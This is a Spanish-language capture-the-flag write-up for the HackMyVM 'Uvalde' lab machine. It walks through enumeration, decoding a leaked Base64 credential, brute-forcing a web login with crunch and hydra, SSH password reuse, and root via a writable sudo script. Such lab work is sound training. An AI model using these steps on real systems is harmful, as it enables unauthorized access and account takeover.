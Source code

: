 ```yaml
---
layout: post
title: Uvalde - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/uvalde/uvalde.png#center)

## Reconocimiento

Comienzo con un escaneo de puertos y servicios disponibles en la máquina.

```
$ sudo nmap -p- 192.168.1.49       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-17 12:41 EST
Nmap scan report for 192.168.1.49
Host is up (0.000096s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### FTP (21)

El servidor FTP tiene disponible el acceso como usuario anónimo. Dentro encuentro el archivo output.

```
$ ftp 192.168.1.49          
Connected to 192.168.1.49.
220 (vsFTPd 3.0.3)
Name (192.168.1.49:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||56565|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        116          4096 Jan 28 19:55 .
drwxr-xr-x    2 0        116          4096 Jan 28 19:55 ..
-rw-r--r--    1 1000     1000         5154 Jan 28 19:54 output
226 Directory send OK.
ftp> 
```

Una vez descargado se puede ver que aparece el nombre un usuario local de la máquina, **Matthew**.

```
$ cat output 
Script démarré sur 2023-01-28 19:54:05+01:00 [TERM="xterm-256color" TTY="/dev/pts/0" COLUMNS="105" LINES="25"]
matthew@debian:~$ id
uid=1000(matthew) gid=1000(matthew) groupes=1000(matthew)
matthew@debian:~$ ls -al
total 32
drwxr-xr-x 4 matthew matthew 4096 28 janv. 19:54 .
drwxr-xr-x 3 root    root    4096 23 janv. 07:52 ..
lrwxrwxrwx 1 root    root       9 23 janv. 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 matthew matthew  220 23 janv. 07:51 .bash_logout
-rw-r--r-- 1 matthew matthew 3526 23 janv. 07:51 .bashrc
drwx------ 3 matthew matthew 4096 23 janv. 08:04 .config
drwxr-xr-x 3 matthew matthew 4096 23 janv. 08:04 .local
[...]
```

Apunto el nombre, será importante mas adelante.

### HTTP (80)

Continuando con la enumeración, utilizo gobuster para encontrar archivos y subdirectorios.

```
$ gobuster dir -u "http://192.168.1.49" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
[...]
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 29604]
/img                  (Status: 301) [Size: 310] [--> http://192.168.1.49/img/]
/login.php            (Status: 200) [Size: 1022]
/user.php             (Status: 302) [Size: 0] [--> login.php]
/mail                 (Status: 301) [Size: 311] [--> http://192.168.1.49/mail/]
/css                  (Status: 301) [Size: 310] [--> http://192.168.1.49/css/]
/js                   (Status: 301) [Size: 309] [--> http://192.168.1.49/js/]
/success.php          (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 313] [--> http://192.168.1.49/vendor/]
/create_account.php   (Status: 200) [Size: 1003]
Progress: 59995 / 441122 (13.60%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/02/17 12:44:10 Finished
===============================================================
```

Entre todos estos hay que destacar "/create_account.php" y "/login.php".

Utilizando Burpsuite, capturo la petición POST y como se puede ver solo toma el dato "username".

```
POST /create_account.php HTTP/1.1
Host: 192.168.1.49
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://192.168.1.49
Connection: close
Referer: http://192.168.1.49/create_account.php
Upgrade-Insecure-Requests: 1

username=asdf
```

Realizo la misma petición que antes pero utlizando curl.

```
$ curl -X POST http://192.168.1.49/create_account.php -d "username=L0rdP4" -i -v
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 192.168.1.49:80...
* Connected to 192.168.1.49 (192.168.1.49) port 80 (#0)
> POST /create_account.php HTTP/1.1
> Host: 192.168.1.49
> User-Agent: curl/7.87.0
> Accept: */*
> Content-Length: 15
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Fri, 17 Feb 2023 17:49:54 GMT
Date: Fri, 17 Feb 2023 17:49:54 GMT
< Server: Apache/2.4.54 (Debian)
Server: Apache/2.4.54 (Debian)
< Set-Cookie: UserName=registred; expires=Fri, 17-Feb-2023 18:49:54 GMT; Max-Age=3600
Set-Cookie: UserName=registred; expires=Fri, 17-Feb-2023 18:49:54 GMT; Max-Age=3600
< Location: success.php?dXNlcm5hbWU9TDByZFA0JnBhc3N3b3JkPUwwcmRQNDIwMjNAODAxMQ==
Location: success.php?dXNlcm5hbWU9TDByZFA0JnBhc3N3b3JkPUwwcmRQNDIwMjNAODAxMQ==
< Content-Length: 1031
Content-Length: 1031
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8
[...]
```

En la respuesta se puede ver el archivo **sucess.php** seguido de un texto en Base64.

```
echo "dXNlcm5hbWU9TDByZFA0JnBhc3N3b3JkPUwwcmRQNDIwMjNAODAxMQ" -n | base64 -d
username=L0rdP4&password=L0rdP42023@8011
```

Me devuelve la el usuario introducido en la petición y una contraseña generada automaticamente.

Supongo que el usuario Matthew generó la contraseña de la misma manera, así que utilizo **crunch** para generar una lista con el mismo formato.

Password = nombre de usuario + 2023 + @ + número aleatorio de 4 cifras

```
$ crunch 16 16 -t matthew2023@%%%% -l aaaaaaaaaaa@aaaa > matth.list             
Crunch will now generate the following amount of data: 170000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000 
                                                                                                                   
$ head matth.list                                                      
matthew2023@0000
matthew2023@0001
matthew2023@0002
matthew2023@0003
[...]
```

## Explotación

Una vez he generado la lista, utilizo **hydra** para crackear la contraseña en /login.php.

```
$ hydra -l matthew -P matth.list 192.168.1.49 http-post-form '/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">' 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[...]
[DATA] attacking http-post-form://192.168.1.49:80/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">
[80][http-post-form] host: 192.168.1.49   login: matthew   password: matthew*********
1 of 1 target successfully completed, 1 valid password found
```

Intento logearme mediante **ssh** en caso que Matthew haya reutilizado la contraseña.

```
$ ssh matthew@192.168.1.49
[...]
matthew@uvalde:~$ :)
```

Estoy dentro.

## Escalado de privilegios

Matthew tiene permisos de sudo para ejecutar **/opt/superhack** como cualquier usuario.

```
matthew@uvalde:~$ sudo -l
Matching Defaults entries for matthew on uvalde:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User matthew may run the following commands on uvalde:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
```

Al ejecutar un simple **ls** se puede ver que Matthew tiene permisos de lectura y escritura sobre superhack.

Sabiendo esto simplemento lo edito para que se ejecute **bash** y haciendo uso de los mágicos poderes de sudo obtengo la shell como root.

```
matthew@uvalde:/opt$ ls -la /opt
total 12
drwx---rwx  2 root    root    4096 Feb 17 18:58 .
drwxr-xr-x 18 root    root    4096 Jan 22 15:31 ..
-rw-r--r--  1 matthew matthew    5 Feb 17 18:58 superhack
matthew@uvalde:/opt$ echo "bash" > superhack
matthew@uvalde:/opt$ sudo /bin/bash /opt/superhack
root@uvalde:/opt# :)
```

Muchas gracias a **Cromiphi** por esta máquina.
